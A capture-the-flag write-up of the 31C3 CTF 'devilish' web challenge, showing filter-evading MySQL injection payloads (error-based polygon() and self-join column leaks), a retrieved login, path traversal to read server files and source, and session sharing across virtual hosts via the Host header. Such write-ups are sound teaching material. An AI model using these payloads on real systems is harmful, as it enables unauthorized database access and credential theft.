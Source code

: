 ```yaml
---
layout: post
title: "31C3 CTF 'devilish' writeup"
categories: writeups 31c3-ctf
tags: exploitation
author: eboda
---
```


*devilish* was a web challenge worth 30 points at the 31C3 CTF.

![devilish page]({{ site.url }}/imgs/31c3-ctf_devilish_1.png)

## SQL injection
The website itself offered a login form as well as a member list and profile pages. The profile pages used a rewritten URL:

    http://188.40.18.70/PROFILE/55/Dracula

We found a SQL injection vulnerability by adding a backslash `\` either after the *55* or *Dracula*:

    http://188.40.18.70/PROFILE/55\/Dracula

This produces an error message in a Halloween-type font, so only checking the HTML source reveals it:

{% highlight HTML %}
<!--SELECT * FROM users WHERE id_user='55\' AND Us3rN4m3='Dracula'-->
<span class='styleX'>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'Dracula'' at line 1</span>
{% endhighlight %}

We are dealing with a MySQL dbms and the error is obviously due to the `'` getting escaped by the backslash. We also learned a table name: `users`.

However, the  actual  injection was rather tricky as a lot of SQL keywords were filtered, such as `UNION`, `GROUP`, `OR` (therefore blocking also infORmation_schema), `FILE`, `'`, `/*`, spaces and some more.
Note that in MySQL you can bypass a filter on spaces rather easily with either making use of paranthesis or by using ASCII chars, which MySQL interprets as spaces, such as %09 (tab), %0a (new line), %0b, %0c. %a0.

Without being able to access `information_schema` we could not retrieve the column names of table `users` in the traditional way.
First we checked the number of columns in users:

    http://188.40.18.70//PROFILE/55\/||(select*from(users))=1--%09-

The error output of this gave us the number of columns:

    Operand should contain 8 column(s)

Then we continued by using an error based injection with the polygon() method. Queries passed to polygon() are expanded and reflected in the error message:

    http://188.40.18.70//PROFILE/55\/||username=||polygon((select(1)from(select*from(users))x))--%09-

The output of this was the following:

    Illegal non geometric '(select 1 from (select `devilish`.`users`.`id_user` AS `id_user`,`devilish`.`users`.`Us3rN4m3` AS `Us3rN4m3`,`devilish`.`users`.`Em4iL4dR3Szz` AS `Em4iL4dR3Szz`,`devilish`.`users`.`S4cR3dT3xT0' value found during parsing

As you can see, we now had learned some column names already. However, the output was cut off since the length of error messages was limited. We could get more output by retrieving only a row of NULLs:

    http://188.40.18.70//PROFILE/55\/||polygon((select(1)from(select*from(users)where(id_user=0))x))--%09-

Now the output for each column was shorter and we learned additional column names: 

    Illegal non geometric '(select 1 from (select NULL AS `id_user`,NULL AS `Us3rN4m3`,NULL AS `Em4iL4dR3Szz`,NULL AS `S4cR3dT3xT0Fm3`,NULL AS `MyPh0N3NumB3RHAHA`,NULL AS `Addr3Zz0F_tHi5_D3wD`,NULL AS `CHAR_LOL`,NULL AS' value found during parsing

Unfortunately, the last column name - the one for the password column :) - didn't fit into the error message, it was cut off at **NULL AS**.

Another way to leak column names is to join a table with itself:

    http://188.40.18.70/PROFILE/55\/||(select(1)from(select*from(users)join(users`x`))f)--%09-

Note, that you need to give the second users table an alias, otherwise MySQL will complain about duplicate tables.
This gave us the first column: 

    Duplicate column name 'id_user'

To get the remaining column names, we have to trick MySQL into ignoring the columns we are not interested in. This can be done with the `USING` keyword. MySQL assumes that columns passed in a list after `USING` are present in both tables of the join and joins the table on them:

    http://188.40.18.70/PROFILE/55\/||(select(1)from(select*from(users)join(users`x`)using(id_user))f)--%09-

And we get the second column:

    Duplicate column name 'Us3rN4m3'

We could retrieve all columns - including the last one - with this method:

    http://188.40.18.70/PROFILE/55\/||(select(1)from(select*from(users)join(users`x`)using(id_user,Us3rN4m3,Em4iL4dR3Szz,
    S4cR3dT3xT0Fm3,MyPh0N3NumB3RHAHA,Addr3Zz0F_tHi5_D3wD,CHAR_LOL)))f)--%09-

Which gave us the password column: 

    Duplicate column name 'P4sWW0rD_0F_M3_WTF'

Then with simple error based injection we retrieved a login:

    user: sickOWL
    pass: sdz654d8dg7f65dh4ry9i84h56vn4bvc56bvcx4b98sdf456sq

## Directory Listings
When logging in, we were greeted with a page allowing us to browse some directories of the logged in user. However, with simple path traversal it was easy to manage to browse any directory on the server:

![devilish flag]({{ site.url }}/imgs/31c3-ctf_devilish_2.png)

We were able to access some of the source pages of the website in the following folder:

    http://188.40.18.70/ACCESS?action=browse&dir=../../__WebSiteFuckingPrivateContentNotForPublic666

We could read the LOGIN script, by simply navigating to the file with the browser:

{% highlight php %}
<?php
    if(@$_SESSION['user']){header("location: ".$LINK);die();}
    if(isset($_POST['user'])){
        if(mysqli_num_rows(mysqli_query($con,"SELECT * FROM users WHERE Us3rN4m3='".mysqli_real_escape_string($con,@$_POST['user'])."' AND P4sWW0rD_0F_M3_WTF='".mysqli_real_escape_string($con,@$_POST['pass'])."' "))>0){
            $_SESSION=$_POST;
            header("location: ".$LINK);die();
        }else{
            $Error=1;
        }
    }
?>
{% endhighlight %}

Notice that the `$_SESSION` variable will be set to the `$_POST` variable here. We will need to use this fact later on.

Other directories of interest were /home/user and /home/devilish.local. The former  contained a `flag.txt`, but there was no way to read it, while the latter contained website files similar to the ones we already knew. Further investigation into the server revealed that in /etc/apache2/sites-enabled next to the default site, the devilish.local virtual host was enabled as well, serving a website out of the /home/devilish.local directory.

## Private portal

With simply changing the Host  header of the http request to `devilish.local`, we could then access the website presenting us with a login prompt to a private portal. Again we could fetch the source code of the login page:

{% highlight php %}
<?php
    if(@$_SESSION['is_ExclusiveMember']){header("location: ".$LINK);die();}
    if(isset($_POST['user'])){
        if(@$_POST['user']===$uLOGIN && @$_POST['pass']===$uPASSWORD){
            $_SESSION['is_ExclusiveMember']=1;
            header("location: ".$LINK);
            die();
        }else{
            $Error=1;
        }
    }
?>
{% endhighlight %}

Notice, that the session variable `is_ExclusiveMember` is used to mark a user as logged in. PHP sessions are not aware of virtual hosts by default and are shared between them. This means, we actually have control over the `$_SESSION` variable, as in the first LOGIN script, it is set to `$_POST`.

The things left to do are to login in the first LOGIN script and supply an additional POST parameter `is_ExclusiveMember=1`. Using the new session cookie, we then make a request to the private LOGIN script and get the flag displayed.

`Here's your secret 31c3_Th3r3_4R3_D3v1li5h_Th0ght5_ev3N_1N_th3_M0sT_4ng3l1c_M1nd5`

